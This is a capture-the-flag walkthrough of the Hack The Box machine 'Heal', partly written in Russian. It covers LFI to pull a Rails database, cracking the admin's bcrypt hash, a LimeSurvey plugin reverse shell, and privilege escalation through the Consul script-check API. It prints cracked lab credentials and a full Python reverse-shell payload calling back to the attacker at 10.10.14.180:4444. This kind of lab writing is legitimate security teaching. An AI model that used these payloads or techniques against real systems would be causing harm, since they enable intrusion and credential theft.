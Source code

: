 Let's scan the IP address `10.10.11.46`
```bash
sudo nmap -v -sC -sV 10.10.11.46
```
![image](images/20250404175741.png)

Let's go to the website

![image](images/20250322182212.png)

Let's try to register and intercept the request in `Burp Suite`

![image](images/20250322184322.png)

We see that there is a reference to `http://api.heal.htb`. Let's add it to `/etc/hosts` and go to it

![image](images/20250322184438.png)

Now we can register

![image](images/20250322184706.png)

![image](images/20250322184715.png)

If you click `Survey`, a website with a new submenu `http://take-survey.heal.htb` will open. Add it to `/etc/hosts` as well
If you simply go to this address, you will get the following output:

![image](images/20250404183920.png)

Now the administrator `ralph@heal.htb` is known.
The admin authorization page was found (`/admin --> http://take-survey.heal.htb/index.php/admin/authentication/sa/login`)

![image](images/20250404183945.png)

Let's try to export a PDF file and intercept the request in `Burp Suite`.
Sending data to `/expected`.

![image](images/20250404193605.png)

Next, it checks whether access to the `/download` resource is allowed with the `GET` method and the `Authorization` header.

![image](images/20250404193626.png)

Request to download the file

![image](images/20250404193643.png)

And then the PDF file is downloaded. 
Since all actions take place on the server, you can try to exploit LFI

![image](images/20250404194531.png)

![image](images/20250404194554.png)

![image](images/20250404194649.png)

LFI works. Now we know that there are users `ralph` and `ron`. Let's try to find the database for `Rails`. The [documentation](https://guides.rubyonrails.org/command_line.html) mentions the existence of the `/config/database.yml` file.

![image](images/20250404195431.png)

Let's try to download it.

![image](images/20250404195514.png)

![image](images/20250404195532.png)

![image](images/20250404195607.png)

Let's download the file `/storage/development.sqlite3`

![image](images/20250404195833.png)

![image](images/20250404195851.png)

![image](images/20250404195909.png)

Let's open it with `sqlite3`

![image](images/20250404200447.png)

```hashes
ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|ralph|1
test@test.com|$2a$12$ixJT6jUCT8kBXBcHsKw94.pYzoJL4wOuzTs8noUwDVaAS.E50Zmue|test|0
andres@htb.com|$2a$12$iliM9hW1LzsuwabZz4GXFurTfRAtt6txQQJVS10EmTjwWAmAc0oH6|andres|0
0xbandit@gmail.com|$2a$12$7h5X5h8D1k/ilFpMZasrH.RdOI5BpuXMs7pwKu0DSew786hf0qOgG|0xbandit|0
0xbandit2@gmail.com|$2a$12$x6AcggrhJ/7oo7Dvhj/oMeXkACScu6UJFlnbcm3f5ZogbpbVIQAF6|0xbandit2|0
dex1d@gmail.com|$2a$12$xXJDD6NeUZuLhW9Ig5ytD.lgBsjd1ziBiGoU5GUo2mr8G4Vtf81BK|dex1d|0
```
We are interested in `ralph`, as he is the only admin. This is a password hash in `bcryp` format. Let's crack it:
```bash
hashcat -m 3200 ralph /usr/share/wordlists/rockyou.txt
```

![image](images/20250404201551.png)

```Password
147258369
```

Log in to the admin panel

![image](images/20250404201637.png)

In this panel, you can upload your plugins. Let's upload our plugin with `reverse shell`. To do this, find a ready-made exploit on GitHub (https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE).
There are two files: `config.xml` and `revshell.php`. They need to be packed into a ZIP archive to be uploaded to the site as a plugin.
```bash
zip -r ReverseShellPlugin.zip config.xml revshell.php
```

![image](images/20250404203158.png)

![image](images/20250404203227.png)

Run the script to enter the `reverse shell`
```bash
python exploit.py http://take-survey.heal.htb ralph 147258369 80
```

![image](images/202t50404210223.png)

```bash
python3 -c 'import pty; pty.spawn(“/bin/bash”)'
```
Go to the site directory (it is located at `/var/www/limesurvey` instead of the usual `/var/www/html`) and look for configuration files. We see a line with data for logging into the database

![image](images/20250404210840.png)

```Password
pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;
```
Log in to it
```bash
PGPASSWORD=‘AdmiDi0_pA$$w0rd’ psql -U db_user -h localhost -d survey
```
Display the list of tables
```psgl
\dt
```

![image](images/20250404212130.png)

There is a table called `lime_users`. Let's view its contents
```psgl
select * from lime_users;
```

![image](images/20250404212226.png)

```hash
$2y$10$qMS2Rbu5NXKCPI5i6rjQPexhhJk33kv3KNt4uNjJ5XEvV9hv.om/C
```
Unfortunately, this is the same password that was used to log in to the panel on the website

![image](images/20250404213858.png)

Посмотрим есть ли локально запущенные сервисы
```bash
netstat -lntp
```
![image](images/20250404214100.png)

<div style="page-break-after: always;"></div>

- **5432** — PostgreSQL.
- **3000, 3001** — Возможно, Node.js, Rails, или другие веб-приложения.
- **8500, 8503, 8600, 8300-8302** — Порты Consul (система для управления сервисами и конфигурациями)
Исследуем порт `8500`:
```bash
curl http://localhost:8500
```
Видим вывод
```HTML
<a href="/ui/">Moved Permanently</a>
```
Это означает, что сервер `Consul` (работающий на порту 8500) перенаправляет запросы с корневого пути `/` на веб-интерфейс `/ui/`.
Попробуем проэксплуатировать RCE на `Consul` через `curl`. Отправим `reverse shell`
```bash
curl -X PUT -d '{
    “ID”: “rc”,
    “Name”: “Remote code execution”,
    “Shell”: “/bin/bash”,
    “Interval”: “5s”,
    “Args”: [
        “python3”,
        “-c”,
        “import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\”10.10.14.180\", 4444)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p=subprocess.Popen([\“/bin/sh\”, \“-i\”])"
    ]
}' http://localhost:8500/v1/agent/check/register
```

![image](images/20250404220114.png)
## What is happening?
1. **Check registration:**
- **ID:** `rc` — check identifier.
- **Name:** `Remote code execution` — check name.
    - **Shell:** `/bin/bash` — shell for executing the command.
- **Interval:** `5s` — the check will run every 5 seconds.
- **Args:** Command to execute.
2. **Reverse Shell command:**
    - Uses `Python3` to create a reverse connection to IP `10.10.14.180` on port `4444`.
- The code opens a socket, redirects standard streams (`stdin`, `stdout`, `stderr`) and launches an interactive shell (`/bin/sh -i`) .

**Consul** is a tool for managing and discovering services that can execute scripts to check the health of services. In our case, the `HTTP API Consul` was available on port 8500, and it appears that the `-enable-script-checks` setting was enabled, allowing arbitrary commands to be executed. This is a known vulnerability that allows attackers to register a check with a malicious script if the API is accessible over the network and there is no proper protection, such as `ACL` (access control lists).
The `curl` command sent a `PUT` request to the endpoint `/v1/agent/check/register` (used to register a new check in `Consul`) with a `JSON` payload that included a `Python` script in the `Args` field. (According to the Consul API documentation (https://developer.hashicorp.com/consul/api-docs/agent/check), the Args field allows you to specify a command to execute if scripted checks are enabled.) This script created a reverse shell by connecting to our listener at `10.10.14.180:4444`. Since `Consul` was configured to execute scripts for checks and was likely running with `root` privileges, executing the script gave access to `root`.
